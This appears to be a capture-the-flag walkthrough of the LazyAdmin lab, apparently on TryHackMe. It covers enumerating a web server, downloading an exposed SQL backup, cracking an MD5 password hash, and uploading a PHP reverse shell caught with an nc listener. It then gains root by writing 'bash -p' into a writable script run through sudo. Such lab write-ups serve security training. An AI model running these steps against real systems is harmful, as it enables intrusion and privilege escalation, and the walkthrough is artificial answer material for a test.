 We started with a port scan using Nmap:

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/nmap.png?raw=true)

Open Ports:
- 22 SSH
- 80 HTTP

We began by fuzzing the website and discovered the directory /content.
Fuzzing further from the discovered directory, we found multiple subdirectories.

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/fuzz1.png?raw=true)

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/fuzz2.png?raw=true)

There is a login form at http://10.10.244.177/content/as/

There is also an interesting list of files available at http://10.10.244.177/content/inc/
The admin of the website has allowed directory listing when it should not be allowed.

The most interesting file is mysql_backup_20191129023059-1.5.1.sql

We can download the file directly using the command :
```
wget http://10.10.244.177/content/inc/mysql_backup/mysql_backup_20191129023059-1.5.1.sql
```
Upon inspection, we found a hash and a username:

- Hash: 42f749ade7f9e195bf475f37a44cafcb
- Username: manager

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/creds-file.png?raw=true)

We can decrypt the hash using CrackStation. It’s the MD5 hash of the password Password123.

Using these credentials, we can log in at http://10.10.244.177/content/as/

Next, we want to upload a reverse shell to execute commands on the target system.

We can upload the PHP reverse shell from https://github.com/pentestmonkey/php-reverse-shell/ here : 

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/revshell.png?raw=true)

We start our listener on our local machine with :

```
nc -lvnp 1234
```

We can trigger our reverse shell by navigating to http://10.10.244.177/content/inc/ads/ and clicking on our uploaded file.

To obtain the user flag, go to /home/itguy and run :
```
cat user.txt
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/user-flag.png?raw=true)


Next, we run sudo -l, which shows that we can run /home/itguy/backup.pl as root. This file is essentially running /etc/copy.sh.

![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/sudoL.png?raw=true)


We check the permissions of /etc/copy.sh and see that we have write access to the file.

All we need to do is add bash -p (which spawns a bash session in privileged mode) to /etc/copy.sh. 

This command will be executed as root when we run :
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
Here’s how to do it :
```
echo "bash -p" > /etc/copy.sh
```
Then execute :
```
sudo /usr/bin/perl /home/itguy/backup.pl
```
Now, we are root and can obtain the root flag.

```
cat /root/*
```
![Image Alt](https://github.com/kcoainnapo/tryhackme/blob/main/LazyAdmin/Images/root-flag.png?raw=true)


VOILA ! 
